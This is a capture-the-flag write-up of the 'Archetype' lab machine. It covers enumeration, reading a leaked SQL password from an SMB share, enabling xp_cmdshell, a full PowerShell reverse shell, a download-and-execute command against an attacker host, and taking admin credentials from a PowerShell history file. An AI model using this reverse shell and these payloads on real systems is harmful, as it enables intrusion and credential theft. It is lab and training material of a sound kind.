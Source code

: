 ```yaml
---
title: "Writeup: Archetype"
date: 2020-12-29T9:34:30-04:00
categories:
  - Blog
  - Notes
tags:
  - archetype
  - update
  - nmap
  - impacket
  - smbclient
  - reverse shell
  - PE
---
```


Here are notes from the named target:

1. Enumeration - Ports 445 and 1433 are open, which are associated with file sharing (SMB) and SQL Server.
```yaml
ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.27 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
 nmap -sC -sV -p$ports 10.10.10.27 
```

2.Enumeration - It is worth checking to see if anonymous access has been permitted, as file shares often store configuration files containing passwords or other sensitive information. We can use smbclient to list available shares
```yaml
smbclient -N -L \\\\10.10.10.27\\ 
```

3. Enumeration - There is a share called backups on the server that is public
```yaml
smbclient -N \\\\10.10.10.27\backups
```
Use Dir and Get to list and then download that file - prod.dtsConfig 

4. There is a dtsConfig file, which is a config file used with SSIS.

use CAT to read it locally

You will see the password for the SWL server

5. Foothold - Use mssqlclient to connect to the SQL server on the box
```yaml
mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth
```
provide the password from the config fill viewed in step 4

We can use the IS_SRVROLEMEMBER function to reveal whether the current SQL user has sysadmin (highest level) privileges on the SQL Server. This is successful, and we do indeed have sysadmin privileges.

This will allow us to enable xp_cmdshell and gain RCE on the host. Let's attempt this, by inputting the commands below.

6. Foothold - we have highest level access in the SQL server so we rune xp_cmdshell to do RCE

```yaml
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure;
xp_cmdshell "whoami"
```

The whoami command output reveals that the SQL Server is also running in the context of the user ARCHETYPE\sql_svc. However, this account doesn't seem to have administrative privileges on the host.

7. Reverse Shell - Let's attempt to get a proper shell, and proceed to further enumerate the system. We can save the PowerShell reverse shell below as shell.ps1.
```yaml
$client = New-Object System.Net.Sockets.TCPClient("Attacker IP",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Next, stand up a mini webserver in order to host the file. We can use Python.

```yaml
python3 -m http.server 80
```

After standing up a netcat listener on port 443, we can use ufw to allow the call backs on port 80 and 443 to our machine. No need to open firewall if we dont have it lovally

```yaml
nc -lvnp 443
```

We can now issue the command to download and execute the reverse shell through xp_cmdshell.

```yaml
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://Attacker IP/shell.ps1\");"
```

A shell is received as sql_svc, and we can get the user.txt on their desktop by navigating the remote system as sql account

8. Privilege Esclation - As this is a normal user account as well as a service account, it is worth checking for frequently access files or executed commands. We can use the command below to access the PowerShell history file.

```yaml
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt  (can also use more command to see contents of file like the user dile

```

That history file shows that the administrator account was used to map a drive to T:\ and what the password was.
This reveals that the backups drive has been mapped using the local administrator credentials. We can use Impacket's psexec.py to gain a privileged shell.

Finally we can use psexec.py from Impacket to connect to the server as Administrator useing the password found in the above step and het the root target hash


